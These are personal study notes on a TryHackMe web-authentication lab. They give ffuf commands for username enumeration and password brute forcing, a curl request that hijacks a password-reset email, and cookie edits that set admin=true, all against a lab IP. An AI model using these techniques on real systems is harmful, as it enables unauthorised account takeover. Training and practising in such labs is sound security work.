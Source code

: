 ```yaml
---
{"dg-publish":true,"permalink":"/thm-notes/web-fundamentals-path/authentication-bypass/","title":"Authentication Bypass - THM Walkthrough","tags":["web"]}
---
```


<a href="https://blog.satvik.live/post/THM%2FWEB%2FAuthentication-Bypass-THM-Walkthrough" style="text-decoration:none;">
  <button style="
    background: linear-gradient(90deg, rgba(0,123,255,1) 0%, rgba(0,102,204,1) 100%);
    border: none; /* Remove borders */
    color: white; /* White text */
    padding: 10px 20px; /* Some padding */
    text-align: center; /* Centered text */
    text-decoration: none; /* Remove underline */
    display: flex; /* Use flexbox */
    align-items: center; /* Center items vertically */
    justify-content: center; /* Center items horizontally */
    font-size: 16px; /* Increase font size */
    margin: 4px 2px; /* Add some margin */
    cursor: pointer; /* Add a pointer on hover */
    border-radius: 12px; /* Rounded corners */
    box-shadow: 0 4px 6px rgba(0, 0, 0, 0.1); /* Add shadow */
    transition: transform 0.2s; /* Animation for hover effect */
    height: 40px; /* Fixed height for better alignment */
  " onmouseover="this.style.transform='scale(1.05)';" onmouseout="this.style.transform='scale(1.0)';">
    Visit Walkthrough 👀
  </button>
</a>
# Notes: TryHackMe Authentication Bypass Module



## Overview
The TryHackMe Authentication Bypass module explores various methods to bypass website authentication mechanisms, which can lead to unauthorized access and potential data breaches. This module covers:
1. Username Enumeration
2. Brute Force Attacks
3. Logic Flaws in Authentication
4. Cookie Tampering

## Key Concepts and Tools

### Username Enumeration
- **Concept**: Identify valid usernames by analyzing error messages.
- **Tool**: `ffuf` (Fuzz Faster U Fool) - used to automate the process of finding valid usernames.
- **Command**:
  ```sh
  ffuf -w /usr/share/wordlists/SecLists/Usernames/Names/names.txt -X POST -d "username=FUZZ&email=x&password=x&cpassword=x" -H "Content-Type: application/x-www-form-urlencoded" -u http://10.10.252.140/customers/signup -mr "username already exists"
  ```
- **Insight**: The tool identifies usernames by looking for a specific error message indicating that the username already exists.

### Brute Force Attacks
- **Concept**: Attempt to guess passwords using a list of commonly used passwords.
- **Tool**: `ffuf` - used again for brute forcing credentials.
- **Command**:
  ```sh
  ffuf -w valid_usernames.txt:W1,/usr/share/wordlists/SecLists/Passwords/Common-Credentials/10-million-password-list-top-100.txt:W2 -X POST -d "username=W1&password=W2" -H "Content-Type: application/x-www-form-urlencoded" -u http://10.10.252.140/customers/login -fc 200
  ```
- **Insight**: The tool tries different combinations of usernames and passwords to find valid credentials.

### Logic Flaws
- **Concept**: Exploit logical errors in the authentication process.
- **Example**: Manipulating the password reset process to redirect the reset email.
- **Tool**: `curl` - used to craft specific HTTP requests.
- **Command**:
  ```sh
  curl 'http://10.10.252.140/customers/reset?email=robert%40acmeitsupport.thm' -H 'Content-Type: application/x-www-form-urlencoded' -d 'username=robert&email={your_email}@customer.acmeitsupport.thm'
  ```
- **Insight**: By changing the email address in the POST data, you can redirect the password reset email to an address you control.

### Cookie Tampering
- **Concept**: Modify cookies to gain unauthorized access or escalate privileges.
- **Example**: Changing plain text cookies to elevate privileges.
- **Tool**: `curl` - used to send HTTP requests with modified cookies.
- **Commands**:
  ```sh
  curl -H "Cookie: logged_in=true; admin=false" http://10.10.252.140/cookie-test
  curl -H "Cookie: logged_in=true; admin=true" http://10.10.252.140/cookie-test
  ```
- **Insight**: Understanding how cookies work and modifying them can allow unauthorized access to higher privilege areas of a website.

## Importance of Tools and Topics
- **`ffuf`**: Automates the process of finding valid usernames and passwords, saving time and increasing efficiency.
- **`curl`**: Allows crafting and sending specific HTTP requests, crucial for testing and exploiting web vulnerabilities.
- **Understanding Authentication Mechanisms**: Fundamental for identifying and exploiting weaknesses in web applications.
- **Learning from Logic Flaws**: Highlights the importance of thorough testing and code review to prevent security issues.

## How the Attacks Were Performed
1. **Username Enumeration**:
   - Used `ffuf` to automate sending signup requests with different usernames.
   - Looked for error messages indicating existing usernames.
2. **Brute Force Attacks**:
   - Used `ffuf` to try multiple password combinations for valid usernames.
   - Checked for successful login indicators (HTTP status codes).
3. **Logic Flaw Exploitation**:
   - Manually crafted `curl` requests to manipulate the password reset process.
   - Redirected password reset emails to an address under my control.
4. **Cookie Tampering**:
   - Examined and modified cookies to change session states.
   - Sent requests with modified cookies to gain higher privileges.

## Conclusion
The Authentication Bypass module on TryHackMe provides hands-on experience with identifying and exploiting common vulnerabilities in web authentication mechanisms. Mastery of these techniques is crucial for cybersecurity professionals, particularly those preparing for certifications like eJPT. Understanding the tools and methods discussed ensures a solid foundation in ethical hacking and web security.

-----

